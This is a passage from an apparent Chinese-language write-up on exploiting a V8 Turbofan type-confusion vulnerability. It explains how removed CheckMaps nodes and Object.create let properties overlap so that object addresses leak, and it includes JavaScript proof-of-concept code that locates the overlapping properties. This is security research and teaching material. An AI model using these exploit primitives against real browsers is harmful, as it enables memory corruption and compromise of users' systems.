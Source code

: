 不过在利用时，需要大量循环来调用这一函数来触发 Turbofan 的优化。

## 漏洞利用

现在我们有了一个可以工作的 Type Confusion 漏洞，该漏洞会导致 V8 将 Dictionary 当作数组访问，从而允许我们操纵对象内存布局中的函数指针和数据，但是利用的过程十分繁琐。  
经过前面的分析，我们有办法可以让函数中多余的`CheckMaps`节点消失，并且能够通过`CreateObject`改变`Properties`，则很容易可以构造一种非预期情况。首先构造一个`obj`，初始化时赋予属性`a`，然后增加属性`b`，函数中首先访问`a`，通过类型检查，然后读取`x.b`，由于没有类型检查，此时返回一个与原`b`属性偏移相同的数据，但由于`Properties`发生变化，返回的数据不会再是`b`属性的值。  
想要稳定利用这一漏洞，一个很大的问题在于，Dictionary 内部的内存布局是随机的，不过在 V8 中有一规律，相同属性的`obj`，在`Dictionary`中各属性的偏移也相同。根据这一规律，我们可以使用同样的构造方式来构造具有相同属性的不同`obj`，来满足不同的需求。

### Property Overlapping

根据上面的分析，利用这一漏洞时，访问属性`b`时会访问到一个其他的元素。我们可以利用这种 property overlapping，实现类型混淆。如属性`b`是一个`Number`类型，而另一个属性是一个`Object`类型，访问属性`b`会以`Number`的方式读出`Object`的地址，造成地址泄露。如果想要控制泄露的`Object`，就需要知道另一个属性是什么。  
下面是一种比较简单常用的方法，按照一定的规律进行赋值，如属性`bi`的值定义为`-i`，然后依次读取，如果读出的值与原值不同，则可以根据读出的值找到最终读出的是哪一个属性的值。

```plain
function getObj(values) {
  let obj = { a: 1234 };
  for (let i = 0; i < 32; i++) {
    Object.defineProperty(obj, 'b' + i, {
      writable: true,
      value: values[i]
    });
  }
  return obj;
}

let p1, p2;

function findOverlapping() {
  let names = [];
  for (let i = 0; i < 32; i++) {
    names[i] = 'b' + i;
  }

  eval(`
    function vuln(obj) {
      obj.a;
      this.Object.create(obj);
      ${names.map((b) => `let ${b} = obj.${b};`).join('\n')}
      return [${names.join(', ')}];
    }
  `)

  let values = [];
  for (let i = 1; i < 32; i++) {
    values[i] = -i;
  }

  for (let i = 0; i < 10000; i++) {
    let res = vuln(getObj(values));
    for (let i = 1; i < res.length; i++) {
      if (i !== -res[i] && res[i] < 0 && res[i] > -32) {
        [p1, p2] = [i, -res[i]];
        return;
      }
    }
  }
  throw "[!] Failed to find overlapping";
}

print("step 1: check whether vulnerability exists");
```